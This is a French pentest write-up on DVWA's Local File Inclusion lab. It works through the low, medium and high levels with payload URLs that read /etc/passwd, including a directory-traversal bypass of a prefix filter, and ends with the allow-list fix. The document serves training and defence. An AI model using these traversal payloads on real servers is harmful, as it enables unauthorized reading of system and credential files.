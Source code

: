 # Pentest en utilisant DVWA

> author : Sacha Besser

# 1. Local File Inclusion

Une Local File Inclusion (LFI) est une vulnérabilité web qui permet à un attaquant de forcer un site à inclure et afficher des fichiers locaux présents sur le serveur.

Cette faille se produit lorsque le site web inclut un fichier sans bien vérifier ou filtrer ce que l’utilisateur peut choisir.

Par exemple, un site utilise une URL comme :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=file.php
```

Ici, le fichier file.php est inclus par la variable page.

Si l’entrée utilisateur n'est pas sécurisée, un attaquant pourrait manipuler l'URL pour inclure d'autres fichiers locaux :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```

---

## 1.1 Premier niveau – low

Nous avons une page toute simple avec trois fichiers :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=include.php
```

![image](file://C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\lfi\1.png?msec=1736349718568)

Nous allons simplement essayer de modifier le paramètre pour inclure une autre page, par exemple `/etc/passwd` :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```

![image](file://C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\lfi\2.png?msec=1736349718573)

On voit que la faille est bien présente puisqu’elle permet d’afficher n’importe quel fichier sur le serveur.  
On peut donc en quelque sorte en déduire le code PHP présent sur le serveur :

```php
<?php  
$page = $_GET['page'];
include($page); ?>
```

Cela pourrait être quelque chose de simple comme ce code ci-dessus, avec un paramètre `GET` sans structure de contrôle.

---

## 1.2 Deuxième niveau - medium

Pour cette deuxième partie, après quelques tests, nous remarquons que `../` est filtré.  
Par exemple :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=../etc/passwd
```

Le résultat ci-dessous montre que les `..` ont été filtrés, et le serveur n'affiche pas le fichier demandé :

![image](file://C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\lfi\3.png?msec=1736349718574)

Ici, il est facile de contourner le filtre en n'utilisant pas `..`. Par exemple, nous pouvons accéder à la racine en utilisant `/` directement.

Ainsi, en utilisant la commande suivante :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```

Nous obtenons le même résultat :

![image](file://C:\Users\sacha\Desktop\pentest_dvwa\rapport_dvwa\images\lfi\2.png?msec=1736349718573)

Le code du serveur pourrait être le suivant :

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

En analysant la configuration de DVWA, on remarque que les `../` sont bien filtrés ainsi que les `http://` et `https://`.

---

## 1.3 Troisième niveau - high

Pour cette troisième partie, nous réessayons d'exécuter la commande suivante :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```

Cette fois-ci, le serveur affiche : `ERROR: File not found!`.  
Il y a donc davantage de filtres ou une structure de contrôle supplémentaire.

En regardant le code PHP, nous découvrons :

```php
<?php

$file = $_GET['page'];

if( !fmatch( "file", $file ) && $file != "include.php" ) {
  // This isn't the page we want!
  echo "ERROR: File not found!";
  exit;
}

?>
```

Le serveur vérifie si le fichier commence par `file`. Cette approche est censée limiter l'accès à des fichiers non autorisés.

Pour contourner cette restriction, nous incluons le préfixe `file` dans l'injection :

```url
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=file/../../../../../../../../../etc/passwd
```

Nous arrivons ainsi à afficher le contenu de `/etc/passwd` :

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\fileUpload\5.png?msec=1736349715390)

---

## 1.4 Niveau Impossible

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
$configFileNames = [
    'include.php',
    'file1.php',
    'file2.php',
    'file3.php',
];

if( !in_array($file, $configFileNames) ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

Analysons ce code :

1. Le fichier est récupéré dans la variable `$file`.
2. Il est comparé à une liste contenant les noms de fichiers autorisés.

Cette méthode est efficace, car elle vérifie explicitement si le fichier demandé est dans la liste. Si ce n'est pas le cas, le serveur affiche : `ERROR: File not found!`.